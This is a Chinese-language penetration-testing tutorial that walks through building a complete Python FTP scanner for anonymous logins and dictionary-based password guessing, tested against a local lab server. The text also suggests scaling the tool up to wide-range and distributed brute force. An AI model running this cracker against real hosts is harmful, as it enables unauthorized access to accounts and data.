




# 第 1 节 Python 实现 FTP 弱口令扫描器

## 一、课程说明

### 1.1 课程简介

本次实验通过使用 Python 实现一个 FTP 弱口令扫描器开始，入门 Python 渗透测试技术，实验涉及 FTP 协议原理，ftplib 库的使用等知识点。

** 注**：本系列课程教学思路，参考自《Python 绝技--运用 Python 成为顶级黑客》，书中代码和教学思路只做参考，本系列教程全部由本人重新设计并基于 Python3.x 重写。本系列课程旨在教大家渗透测试，维护网络安全，如用于非法目的，自行承担法律责任！

### 1.2 目标学员

*   具有 Python 语言基础，不会的同学请到隔壁班先去学一下

### 1.3 Python 版本

*   Python3.x

### 1.4 知识点

本实验涉及如下知识点：

1.  认识 Ftp 服务器
2.  Ftplib 库的使用
3.  argparse 库的使用
4.  Ubuntu 下 Ftp 服务器的搭建

### 1.5 效果图

本节实验将实现如下功能的 FTP 弱口令扫描器：



## 二、 理论基础

以下内容整理自百度百科，参考链接：

*   [百度百科-FTP 服务器](http://baike.baidu.com/link?url=QzWOdM185byEGX-xaFNyO78nOYkRJp5Hd-MJfYz3FwKUooJwXXW0NEWYprgzpqMTiKk8wmoGzCESPHVfcmhLGa)

### 2.1 FTP 服务器

FTP 服务器（File Transfer Protocol Server）是在互联网上提供文件存储和访问服务的计算机，它们依照 FTP 协议提供服务。 FTP 是 File Transfer Protocol(文件传输协议)。顾名思义，就是专门用来传输文件的协议。简单地说，支持 FTP 协议的服务器就是 FTP 服务器。

FTP 是仅基于 TCP 的服务，不支持 UDP。与众不同的是 FTP 使用 2 个端口，一个数据端口和一个命令端口（也可叫做控制端口）。通常来说这两个端口是 21（命令端口）和 20（数据端口）。但 FTP 工作方式的不同，数据端口并不总是 20。这就是主动与被动 FTP 的最大不同之处。主要有两种工作模式：

*   主动 FTP

FTP 服务器的控制端口是 21，数据端口是 20，所以在做静态映射的时候只需要开放 21 端口即可，他会用 20 端口和客户端主动的发起连接。

*   被动 FTP

服务器的控制端口是 21，数据端口是随机的，且是客户端去连接对应的数据端口，所以在做静态的映射话只开放 21 端口是不可以的。此时需要做 DMZ。

### 2.2 Ftp 扫描器实现方案

本课程开发 Ftp 扫描器主要从以下两个方面着手：

#### 扫描匿名 Ftp

Ftp 匿名登录的扫描主要应用于批量扫描中，单独针对一个 Ftp 服务器进行扫描的话成功几率比较小，不过也不排除成功的可能。估计讲到这里的时候，有的同学就有疑问了！！！现在还有人不设置密码吗？那得傻到啥程度？用东北的话来说那不就是傻狍子吗！！！（开个玩笑，免得同学们看我的教程睡着了！）不过言归正传，很多网站都开放 Ftp 服务方便用户下载资源（这个允许匿名登录不足为奇），更疯狂的是网站管理人员为了方便网站访问软件的更新也开放了 Ftp 匿名登录（估计不是自己家的网站......）。这样就给了我们很多机会，尤其后者的服务器很容易就受到攻击，后期我会讲解 Ftp 目录下可以搜到 web 页面之后怎样拿到 Shell（大家多多关注我的教程吧，还有很多精品课程等着你！）。

#### 扫描 Ftp 弱口令

Ftp 弱口令扫描其实就是暴力破解，为何我们不称为暴力破解呢？因为我们只是扫描一些简单的密码组合，并不是所有可能得密码组合，而且我们也没有那么多时间去暴力破解，谁让我们活不了成千上万年呢！只是一个密码而已，弱口令扫不到就算了，天涯何处无芳草何必单恋一枝花呢！不过你要非喜欢这个 Ftp 服务器的话，以后我再教大家别的方法渗透服务器！

## 三、代码实现

### 3.1 Ftp 匿名扫描器的实现

这里我们要用到 Python 的 ftplib 库中的 Ftp 这个类，Ftp 这个类实现了 Ftp 客户端的大多数功能，比如连接 Ftp 服务器、查看服务器中的文件、上传、下载文件等功能，详细用法可以查看一下文档，以后碰到问题也要养成先看文档的习惯！接下来我们来定义 anonScan(hostname)这个函数以实现扫描可匿名登录的 Ftp 服务器。代码如下:

```
#匿名登录扫描
def anonScan(hostname):                 #参数是主机名
    try:
        with FTP(hostname) as ftp:      #创建 Ftp 对象
            ftp.login()                 #Ftp 匿名登录
            print('\n[*] ' + str(hostname) + " FTP Anonymous login successful!") #不抛出异常则表明登录成功
            return True
    except Exception as e:              #抛出异常则表明匿名登录失败
        print('\n[-] ' + str(hostname) + " FTP Anonymous logon failure!")
        return False 
```

代码很简短，主要在注释中解释了代码的含义。这里说一下这个函数的思路，首先用主机名构造了一个 Ftp 对象(即 ftp)，然后用这个 ftp 调用不带任何参数的 login()函数即表示要匿名登录这个 Ftp 服务器，如果登录过程中没有产生异常，则表明匿名登录成功，否则匿名登录失败！

### 3.2 Ftp 弱口令的扫描

Ftp 弱口令的扫描依赖于用户名和密码字典，我们的实验环境中会提供 `pwd.txt` 作为密码字典，字典的格式如下图所示:


接下来我们针对字典中的格式来实现 Ftp 弱口令的扫描，代码如下：

```
#暴力破解
def vlcLogin(hostname, pwdFile):                #参数(主机名，字典文件)
    try:
        with open(pwdFile, 'r') as pf:          #打开字典文件
            for line in pf.readlines():         #循环读取字典文件中的每一行
                time.sleep(1)                   #等待 1 秒
                userName = line.split(':')[0]   #从读取的内容中取出用户名
                passWord = line.split(':')[1].strip('\r').strip('\n') #从读取的内容中取出密码
                print('[+] Trying: ' + userName + ':' + passWord)
                try:
                    with FTP(hostname) as ftp:  #以主机名为参数构造 Ftp 对象
                        ftp.login(userName, passWord)   #使用读取出的用户名密码登录 Ftp 服务器
                        #如果没有产生异常则表示登录成功，打印主机名、用户名和密码
                        print('\n[+] ' + str(hostname) + ' FTP Login successful: '+ \
                              userName + ':' + passWord)
                        return (userName, passWord)
                except Exception as e:
                    # 产生异常表示没有登录成功，这里我们不用管它，继续尝试其他用户名、密码
                    pass
    except IOError as e:
        print('Error: the password file does not exist!')
    print('\n[-] Cannot crack the FTP password, please change the password dictionary try again!')
    return (None,None) 
```

这段代码其实就是循环从字典中读取用户名和密码并尝试登陆，登陆成功则表明找到用户名和密码。由于这个函数将主机名定义成了可以用“，”分割的字符串。找到密码并不会终止程序，而是会继续扫描其他主机的弱口令，直到所有的主机都扫描一遍。

### 3.3 命令行解析

至此我们的 Ftp 扫描器已经几乎完成了，代码并不多，也很简单。现在我们需要做的是让我们的脚本可以处理命令行输入，以控制扫描哪些主机。处理命令行参数我们将用到 Python 中的 argparse 库，这个库是 Python 中自带的模块，处理命令行将变得非常简单，下面我们一起见证一下 argparse 的强大之处，先上代码：

```
# 这里用描述创建了 ArgumentParser 对象
    parser = argparse.ArgumentParser(description = 'FTP Scanner')
    # 添加-H 命令 dest 可以理解为咱们解析时获取-H 参数后面值的变量名,help 是这个命令的帮助信息
    parser.add_argument('-H',dest='hostName',help='The host list with ","space')
    parser.add_argument('-f',dest='pwdFile',help='Password dictionary file')
    options = None
    try:
        options = parser.parse_args()

    except:
        print(parser.parse_args(['-h']))
        exit(0)
    hostNames = str(options.hostName).split(',')
    pwdFile = options.pwdFile 
```

通过 argparse 库来解析命令行参数，可以根据添加参数时指定的 help 关键字的内容来自动生成帮助文档。具体效果如下图所示：


在处理复杂命令的时候 argparse 的强大就更明显了，由于这个属于 Python 基础，所以 Python 库中自带的库这里我就不做过多的介绍了。

### 3.4 整合全部的代码

基本的代码咱们已经实现完成了，现在把上面的代码整合一下就可以了，代码如下:

```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from ftplib import *
import argparse
import time

#匿名登录扫描
def anonScan(hostname):                 #参数是主机名
    try:
        with FTP(hostname) as ftp:      #创建 Ftp 对象
            ftp.login()                 #Ftp 匿名登录
            print('\n[*] ' + str(hostname) + " FTP Anonymous login successful!") #不抛出异常则表明登录成功
            return True
    except Exception as e:              #抛出异常则表明匿名登录失败
        print('\n[-] ' + str(hostname) + " FTP Anonymous logon failure!")
        return False

#暴力破解
def vlcLogin(hostname, pwdFile):                #参数(主机名，字典文件)
    try:
        with open(pwdFile, 'r') as pf:          #打开字典文件
            for line in pf.readlines():         #循环读取字典文件中的每一行
                time.sleep(1)                   #等待 1 秒
                userName = line.split(':')[0]   #从读取的内容中取出用户名
                passWord = line.split(':')[1].strip('\r').strip('\n') #从读取的内容中取出密码
                print('[+] Trying: ' + userName + ':' + passWord)
                try:
                    with FTP(hostname) as ftp:  #以主机名为参数构造 Ftp 对象
                        ftp.login(userName, passWord)   #使用读取出的用户名密码登录 Ftp 服务器
                        #如果没有产生异常则表示登录成功，打印主机名、用户名和密码
                        print('\n[+] ' + str(hostname) + ' FTP Login successful: '+ \
                              userName + ':' + passWord)
                        return (userName, passWord)
                except Exception as e:
                    # 产生异常表示没有登录成功，这里我们不用管它，继续尝试其他用户名、密码
                    pass
    except IOError as e:
        print('Error: the password file does not exist!')
    print('\n[-] Cannot crack the FTP password, please change the password dictionary try again!')
    return (None,None)

def main():
    # 这里用描述创建了 ArgumentParser 对象
    parser = argparse.ArgumentParser(description='FTP Scanner')
    # 添加-H 命令 dest 可以理解为咱们解析时获取-H 参数后面值的变量名,help 是这个命令的帮助信息
    parser.add_argument('-H',dest='hostName',help='The host list with ","space')
    parser.add_argument('-f',dest='pwdFile',help='Password dictionary file')
    options = None
    try:
        options = parser.parse_args()

    except:
        print(parser.parse_args(['-h']))
        exit(0)

    hostNames = str(options.hostName).split(',')
    pwdFile = options.pwdFile
    if hostNames == ['None']:
        print(parser.parse_args(['-h']))
        exit(0)

    for hostName in hostNames:
        username = None
        password = None
        if anonScan(hostName) == True:
            print('Host: ' + hostName + ' Can anonymously!')
        elif pwdFile != None:
            (username,password) = vlcLogin(hostName,pwdFile)
            if password != None:
                print('\n[+] Host: ' + hostName + 'Username: ' + username + \
                      'Password: ' + password)

    print('\n[*]-------------------Scan End!--------------------[*]')

if __name__ == '__main__':
    main() 
```

到此我们的代码就全部完成了，稍加改动就会使这个扫描器更加强大，比如：主机名可以指定范围实现大范围扫描或者改成分布式暴力破解 Ftp 用户名密码这样字典的容量就可以更大一些，成功率也会大大增加！

## 四、实验环境搭建

实验环境使用实验楼的 `Ubuntu 14.04`, 这里我们使用 python 的第三方库`pyftpdlib`,可以非常简单的架设一个 FTP 服务器。

### 4.1 安装 pyftpdlib

*   打开终端，输入如下命令

> sudo pip install pyftpdlib

如下图所示：



*   启动 ftp 服务器，输入如下命令：

> sudo python -m pyftpdlib -p 21

如下图所示：



这里默认是允许匿名登录，等一下看看我们能不能扫到！

### 4.2 测试扫描

至此我们的环境就搭建好了，现在可以测试我们的 Ftp 弱口令扫描器了！ 现在我们开始测试吧！运行代码效果如下图所示：



这里主要测试了一下匿名登录，至于弱口令破解，同学们可以自己找一个密码字典，尝试一下破解 Ftp 服务器！

## 五、课后练习

将本程序更改成主机名可以通过形如：主机名 1-主机名 n 这种形式，让程序可以按照范围扫描主机。

## 六、总结

本次课程实现了 Ftp 弱口令扫描器，主要用到以下知识点：

1.  Ftp 服务器的基本概念
2.  使用 ftplib 如何一步一步的实现 Ftp 弱口令扫描器
3.  使用 argparse 解析命令行参数
4.  实验环境的搭建方法

同时希望同学们可以认真写实验报告，把课后练习的实现思路写出来，这样不仅达到练习的目的同时还能拓展思维，将程序变成自己的！期待你们的实验报告！

## 七、参考文献

*   《Python 绝技--运用 Python 成为顶级黑客》
*   《Python 黑帽子-- 黑客与渗透测试编程之道 》